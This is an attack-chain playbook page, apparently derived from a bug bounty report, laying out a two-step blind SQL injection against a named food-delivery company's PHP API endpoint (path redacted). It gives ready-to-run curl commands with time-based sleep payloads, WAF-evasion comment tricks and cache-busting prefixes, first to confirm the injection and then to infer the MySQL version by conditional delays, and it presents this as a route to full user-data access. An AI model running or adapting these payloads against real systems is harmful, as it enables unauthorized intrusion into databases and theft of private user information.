

---
tags:
  - sqli
  - blind-sqli
  - web
  - mysql
  - php
  - waf-bypass
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2024-10-01T00:00:00Z'
procedures:
  - '[[procedures/Confirm-SQL-Injection-Vulnerability-Using-Sleep-Payload]]'
  - '[[procedures/Extract-Database-Version-Using-Conditional-Sleep-Payload]]'
step_count: 2
techniques:
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T03:15:10.235Z'
description: >-
  Multi-stage blind SQL injection attack exploiting the item_id POST parameter
  in Zomato's API endpoint to confirm vulnerability and extract database
  information, bypassing caching and WAF.
skill_level: intermediate
impact_level: high
id: 06f53cf7-bfc7-4bb6-99d7-e20e49e3c27b
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# Blind SQL Injection via item_id Parameter in Zomato API for Database Access

Multi-stage attack chain demonstrating a blind SQL injection vulnerability in Zomato's PHP-based API endpoint, allowing confirmation of the vuln and extraction of database details like version, potentially leading to full data access including private user information.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~15 seconds |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/curl]]
- Web proxy like Burp Suite for request manipulation (optional)

### Target Environment

- Web platform with PHP backend
- MySQL database
- Exposed API endpoint at https://www.zomato.com/php/██████████
- No authentication required for the endpoint

### Initial Access Requirements

- Direct network access to the target website
- Ability to send POST requests
- Knowledge of restaurant IDs (e.g., res_id=1111) and menu details for payload crafting

## Detailed Attack Procedures

### Step 1: Confirm Vulnerability
procedure: [[procedures/Confirm-SQL-Injection-Vulnerability-Using-Sleep-Payload]]

**Objective**: Verify the presence of blind SQL injection in the item_id parameter by inducing a detectable delay using a sleep function, while bypassing database caching and Akamai Kona WAF.

**Instructions**: Craft a POST request to the endpoint with a sleep payload in item_id. Vary the integer prefix (e.g., 1111) in each request to avoid caching. Use comments like /*f*/ to evade WAF filters.

Execute the confirmation using [[commands/zomato-sqli-sleep-poc]]:

```bash
curl -X POST "https://www.zomato.com/php/██████████" \
  -d "res_id=1111&method=add_menu_item_tags&item_id=1111-sleep/*f*/(10)&new_tags[]=3&menu_id=1111"
```

Monitor the response time for a delay of approximately 10 seconds.

**Expected Output**: Server response delayed by ~10 seconds, confirming SQL payload execution.

**Success Indicators**:
- Response time exceeds 10 seconds
- No immediate error; payload is processed

### Step 2: Extract Database Information
procedure: [[procedures/Extract-Database-Version-Using-Conditional-Sleep-Payload]]

**Objective**: Enumerate database details, such as the MySQL version, using conditional sleep payloads to infer data based on response times, demonstrating potential for broader data exfiltration.

**Instructions**: Send conditional payloads to check specific conditions (e.g., version starting with '5'). Compare response times between true and false conditions. Increment the integer prefix to bypass caching.

First, test if version starts with '5' using [[commands/zomato-sqli-version-check-5]]:

```bash
curl -X POST "https://www.zomato.com/php/██████████" \
  -d "res_id=1111&method=add_menu_item_tags&item_id=1111-if(mid(version/*f*/(),1,1)=5,sleep/*f*/(5),0)&new_tags%5B%5D=3&menu_id=1111"
```

Then, run the control test for '4' using [[commands/zomato-sqli-version-check-4]]:

```bash
curl -X POST "https://www.zomato.com/php/██████████" \
  -d "res_id=1111&method=add_menu_item_tags&item_id=1111-if(mid(version/*f*/(),1,1)=4,sleep/*f*/(5),0)&new_tags%5B%5D=3&menu_id=1111"
```

Compare timings: ~6 seconds for true condition vs. ~1 second for false.

**Expected Output**: Delayed response (6090ms) for true condition; quick response (910ms) for false.

**Success Indicators**:
- Differential response times confirming condition evaluation
- Inferred database version (e.g., starts with 5)

## Attack Chain Summary

### Key Achievements

1. Confirmed blind SQLi vulnerability with sleep payload, bypassing WAF and caching.
2. Extracted MySQL version via conditional responses, proving data enumeration capability.
3. Demonstrated path to full database access, risking exposure of user data.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Collection]]

---
*Last updated: 2024-10-01T00:00:00Z*
